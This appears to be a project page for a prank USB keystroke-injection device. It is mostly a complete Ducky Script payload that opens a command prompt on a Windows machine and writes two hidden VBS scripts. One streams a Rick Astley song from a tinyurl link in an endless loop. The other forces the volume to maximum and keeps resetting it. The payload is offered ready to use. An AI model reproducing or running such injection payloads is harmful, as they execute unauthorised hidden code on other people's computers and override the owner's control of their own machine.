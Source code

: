 Based on: https://gitlab.com/WarKitteh/arduino-hid-rickroll

GitLab repo (Modded): https://github.com/BlueArduino20/Rickroll-MODDED

It creates and starts 2 vbs files. One of them plays Never Gonna Give You Up from Rick Astley on a loop without any windows showing up. Another vbs file sets the volume to the maximum continuously and if someone tries to get down the volume, it will reset the volume to the maximum level.

Ducky code:
```
DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 500
STRING del %tmp%\rickyou.vbs
ENTER
DELAY 200
STRING del %tmp%\volup.vbs
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "http://tinyurl.com/s63ve48"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
ENTER
STRING Set WshShell = CreateObject("WScript.Shell")
ENTER
STRING WshShell.SendKeys(chr(&hAF))
ENTER
STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs
ENTER
STRING exit
ENTER
```